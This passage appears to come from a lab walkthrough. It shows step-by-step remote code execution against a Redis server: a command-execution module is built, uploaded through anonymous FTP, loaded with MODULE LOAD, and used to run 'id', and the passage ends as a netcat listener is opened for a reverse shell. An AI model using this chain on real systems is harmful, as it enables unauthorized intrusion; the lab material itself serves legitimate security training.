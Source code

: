 First, we’ll create our module. We’ll use the ExecuteCommand module from n0b0dyCN.
```
kali@kali:~$ git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
Cloning into 'RedisModules-ExecuteCommand'...
remote: Enumerating objects: 494, done.
remote: Total 494 (delta 0), reused 0 (delta 0), pack-reused 494
Receiving objects: 100% (494/494), 207.20 KiB | 349.00 KiB/s, done.
Resolving deltas: 100% (286/286), done.
kali@kali:~$ cd RedisModules-ExecuteCommand
kali@kali:~/RedisModules-ExecuteCommand$ make
make -C ./src
make[1]: Entering directory '/home/kali/RedisModules-ExecuteCommand/src'
make -C ../rmutil
make[2]: Entering directory '/home/kali/RedisModules-ExecuteCommand/rmutil'

ld -o module.so module.o -shared -Bsymbolic  -L../rmutil -lrmutil -lc 
make[1]: Leaving directory '/home/kali/RedisModules-ExecuteCommand/src'
cp ./src/module.so .
```
Next, we’ll upload our compiled module to the /pub directory.
```
kali@kali:~/RedisModules-ExecuteCommand$ ftp 192.168.120.217
Connected to 192.168.120.217.
220 (vsFTPd 3.0.2)
Name (192.168.120.217:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> cd pub
250 Directory successfully changed.
ftp> put module.so
local: module.so remote: module.so
227 Entering Passive Mode (192,168,120,217,39,107).
150 Ok to send data.
226 Transfer complete.
48560 bytes sent in 0.48 secs (98.7207 kB/s)
ftp> bye
221 Goodbye.
```
Finally, we must load our module into Redis, which will require some educated guesswork. Since we know the FTP service is running vsFTPd we can assume that it is using the default directory location (/var/ftp/) which means our module would have landed in /var/ftp/pub/module.so.
```
kali@kali:~$ telnet 192.168.120.217 6379
Trying 192.168.120.217...
Connected to 192.168.120.217.
Escape character is '^]'.
MODULE LOAD /var/ftp/pub/module.so
+OK
```
Now that we’ve loaded our module, we can execute commands.
```
system.exec "id"
$51
uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)
```
Next, we’ll start a Netcat handler to catch our reverse shell.
```
kali@kali:~$ nc -lvp 6379
listening on [any] 6379 ...
```